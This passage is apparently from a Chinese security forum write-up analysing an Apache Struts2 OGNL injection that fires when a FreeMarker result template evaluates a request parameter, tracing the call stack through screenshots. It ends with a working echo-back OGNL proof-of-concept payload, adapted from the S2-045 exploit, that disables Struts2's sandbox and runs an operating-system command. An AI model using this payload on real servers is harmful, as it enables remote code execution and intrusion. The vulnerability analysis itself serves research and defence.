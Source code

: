 简单执行OGNL表达式如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ae63e81f869ec4ba2355c767689bbd3a1d62e65d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ae63e81f869ec4ba2355c767689bbd3a1d62e65d.png)

由于漏洞触发是在Struts2处理返回页面，即`Result`对象阶段。因此在`DefaultInvocation`开始调度`Result`对象处，以及`OgnlValueStack#findValue()`方法处下断点，便可知道漏洞触发执行的调用栈。

由于`Index.action`的`result`标签的`type`属性为`freemarker`，所以`DefaultInvocation`调度的`Result`对象其实是`FreemarkerResult`，它会根据模板文件创建对应的模板对象`Template`来进行一系列的解析渲染操作。在这个过程中，它先是解析表达式`${name}`获取`name`参数的值，然后对值进行OGNL表达式的计算。关键代码如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-826e04e0dde7ec36765ee39b60b80c7c42d3a0f6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-826e04e0dde7ec36765ee39b60b80c7c42d3a0f6.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b7037930f73d7c311ab11b628ae815a8a2523caa.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b7037930f73d7c311ab11b628ae815a8a2523caa.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bcaebd749e4333b1dd49403e63b6b0b153f79e30.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bcaebd749e4333b1dd49403e63b6b0b153f79e30.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-85414e8d2e7fc539ad9e2955031b65241b3c8e00.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-85414e8d2e7fc539ad9e2955031b65241b3c8e00.png)

### 可回显PoC

拿S2-045的exploit稍微修改一下便可：

```php
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
        (
        (#container=#context['com.opensymphony.xwork2.ActionContext.container']).
        (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
        (#ognlUtil.getExcludedPackageNames().clear()).
        (#ognlUtil.getExcludedClasses().clear()).
        (#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6ed982e32b4c8d0ba63a696e4e02150d40e097cf.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6ed982e32b4c8d0ba63a696e4e02150d40e097cf.png)
